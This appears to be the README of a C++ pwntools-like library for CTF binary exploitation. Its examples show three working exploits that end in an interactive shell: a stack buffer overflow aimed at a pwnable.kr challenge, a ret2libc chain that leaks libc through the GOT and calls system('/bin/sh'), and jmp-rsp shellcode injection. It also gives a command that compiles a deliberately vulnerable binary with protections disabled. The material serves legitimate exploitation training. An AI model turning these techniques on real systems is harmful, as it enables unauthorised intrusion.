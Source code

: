 # ctf

A C++ pwnlib-like library for binary exploitation.

It's not as developed as pwnlib, but it's a start.

## Examples

buffer overflow:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace ctf;

constexpr uint16_t PORT   = 9000;
constexpr uint32_t OFFSET = 0x6161616e;
constexpr uint32_t PASS   = 0xcafebabe;

int main(int argc, char **argv) try {
    auto local = argc > 1 && std::string_view(argv[1]) == "local";

    std::string payload;
    payload += cyclic(cyclic_find(OFFSET));
    payload += p<uint32_t>(PASS);

    using UniqTube = std::unique_ptr<Tube>;

    auto io =
        local ? uniq_tube<Process>("./bin/bof") // the code from pwnable
              : uniq_tube<Remote>("pwnable.kr", PORT);

    io->writeln(payload);
    io->interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

ret2libc:
```cpp
#include <cstdint>
#include <ctf/ctf.hpp>
#include <iostream>

using namespace ctf;

// rip at 0x62616162
constexpr uint32_t RIP = 0x62616162;

int main() try {
    auto elf      = ELF("./bin/vuln");
    auto libc     = ELF("/lib/x86_64-linux-gnu/libc.so.6");
    auto puts_plt = elf.plt()["puts"];
    auto puts_got = elf.got()["puts"];
    auto main_sym = elf.symbols()["main"];
    auto rop      = ROP("./bin/vuln");
    auto pop_rdi  = rop.find_gadget({"pop rdi", "ret"}).at(0);
    auto ret      = rop.find_gadget({"ret"}).at(0);

    auto payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(puts_got),
        p<uint64_t>(ret),
        p<uint64_t>(puts_plt),
        p<uint64_t>(main_sym)
    );
    auto proc = Process("./bin/vuln");
    proc.writeln(payload);
    std::cout << proc.readln() << std::endl;

    auto leak_str = proc.readln();
    hex_println(leak_str);
    auto leak = up<uint64_t>(leak_str);
    std::cout << "0x" << std::hex << leak << std::endl;

    libc.set_address(leak - libc.symbols()["puts"]);
    auto system_sym = libc.symbols()["system"];
    auto bin_sh     = libc.strings()["/bin/sh"];
    auto exit_sym   = libc.symbols()["exit"];

    auto new_payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(bin_sh),
        p<uint64_t>(system_sym),
        p<uint64_t>(exit_sym)
    );
    proc.writeln(new_payload);
    proc.interactive();
} catch (const std::exception &e) {
    std::cerr << e.what() << std::endl;
}
```

shellcode injection:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace ctf;

// rip clobber at 0x61676161
constexpr uint32_t RIP = 0x62616162;

int main(int argc, char **argv) try {
    auto use_gdb   = argc > 1 && std::string_view(argv[1]) == "use_gdb";
    auto elf       = ELF("./bin/vuln");
    auto jmp_rsp   = elf.search({"jmp rsp"}).at(0);
    auto offset    = cyclic_find(RIP);
    auto shellcode = linux_sh_x64();

    std::string payload;
    payload += cyclic(offset);
    payload += p<uint64_t>(jmp_rsp);
    payload += shellcode;

    auto vuln = "./bin/vuln";
    auto proc = use_gdb ? Gdb::debug(vuln, "b main\nc\n") : Process(vuln);
    proc.writeln(payload);
    proc.interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

## Dependencies
- asio
- subprocess.h
- magic-enum
- fmtlib
- LIEF
- capstone
- keystone
- googletest (for tests)

The CMake script uses FetchContent to grab the dependencies and build them. I haven't had the chance to automate things via vcpkg or conan mainly due to missing dependencies there (LIEF and Keystone).
The dependencies are private to ctf and their headers are not exposed to the developer.

## Requirements
C++20 compiler. CMake > 3.18.

## Building
```bash
git clone https://github.com/MoAlyousef/ctf
cd ctf
# configure
cmake -Bbin -GNinja
# build
cmake --build bin
```

By default this builds a shared library libctf, this provides better link times.
To disable this, use `-DCTF_BUILD_SHARED=OFF` in the configure step.

The default configure step will not build the examples nor the tests. To build those, use `-DCTF_BUILD_EXAMPLES=ON` and `-DCTF_BUIILD_TESTS=ON`.

A vulnerable source code in `examples/vuln.c` is used for the examples. Its not built by CMake. If you would like to build it you can use `gcc -o bin/vuln examples/vuln.c -zexecstack -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0`.

You can use CMake's FetchContent to incorporate ctf into your project:
```cmake
include(FetchContent)
FetchContent_Declare(
  ctf
  GIT_REPOSITORY https://github.com/MoAlyousef/ctf
  GIT_SHALLOW    True
)
FetchContent_MakeAvailable(ctf)
```

Otherwise, you can build the project and use the generated ctf shared library and the public headers in `include/ctf`.
